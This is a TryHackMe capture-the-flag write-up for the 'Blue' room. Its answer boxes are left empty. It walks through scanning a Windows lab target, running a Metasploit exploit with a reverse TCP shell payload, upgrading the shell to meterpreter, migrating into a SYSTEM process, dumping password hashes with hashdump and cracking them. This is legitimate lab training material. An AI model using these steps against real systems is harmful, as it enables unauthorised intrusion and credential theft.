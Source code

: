 <p align="center">
   <img src="https://github.com/Kevinovitz/TryHackMe_Writeups/blob/main/blue/Blue_Cover.png" alt="Blue Logo">
</p>

# Blue

This guide contains the answer and steps necessary to get to them for the [Blue]([https://tryhackme.com/room/linuxfundamentalspart1](https://tryhackme.com/room/blue)) room.

## Table of contents

- [Recon](#recon)
- [Gain Access](#gain-access)
- [Escalate](#escalate)
- [Cracking](#cracking)
- [Find flags!](#find-flags)

### Recon



Scan the machine. (If you are unsure how to tackle this, I recommend checking out the Nmap room)

2. How many ports are open with a port number under 1000?

   

   ><details><summary>Click for answer</summary></details>

3. What is this machine vulnerable to? (Answer in the form of: ms??-???, ex: ms08-067)

   

   ><details><summary>Click for answer</summary></details>

### Gain Access



Start Metasploit

2. Find the exploitation code we will run against the machine. What is the full path of the code? (Ex: exploit/........)



   ><details><summary>Click for answer</summary></details>

3. Show options and set the one required value. What is the name of this value? (All caps for submission)



   ><details><summary>Click for answer</summary></details>

Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:

```cmd
set payload windows/x64/shell/reverse_tcp
```

With that done, run the exploit!

Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target. 

### Escalate




1. If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? (Exact path, similar to the exploit we previously selected) 



   ><details><summary>Click for answer</summary></details>

2. Select this (use MODULE_PATH). Show options, what option are we required to change?



   ><details><summary>Click for answer</summary></details>

Set the required option, you may need to list all of the sessions to find your target here. 

Run! If this doesn't work, try completing the exploit from the previous task once more.

Once the meterpreter shell conversion completes, select that session for use.

Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again. 

List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id (far left column).

Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time. 



### Cracking




1. Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user? 

   

   ><details><summary>Click for answer</summary></details>

2. Copy this password hash to a file and research how to crack it. What is the cracked password?

   

   ><details><summary>Click for answer</summary></details>

### Find flags!



1. Flag1? This flag can be found at the system root. 

   

   ><details><summary>Click for answer</summary></details>

2. Flag2? This flag can be found at the location where passwords are stored within Windows.

   

   ><details><summary>Click for answer</summary></details>

3. flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. 

   

   ><details><summary>Click for answer</summary></details>

